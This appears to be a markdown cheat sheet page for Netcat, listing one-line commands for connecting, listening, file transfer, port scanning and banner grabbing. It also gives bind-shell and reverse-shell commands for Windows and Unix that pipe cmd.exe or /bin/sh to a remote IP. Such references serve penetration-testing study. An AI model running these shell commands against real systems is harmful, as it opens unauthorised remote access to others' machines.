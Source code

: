 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


# Usage
***
Insert picture here

# Basic  
***
#### TCP Port - Connecting  
`nc -nv <IP> <PORT>`

**TCP Port - Listening**  
`nc -lvp <PORT>`

**Connect and return HTTP Page**  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**  
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

# Windows  
***
**Bind Shell**  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

# Nix  
***
**Bind Shell**  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)

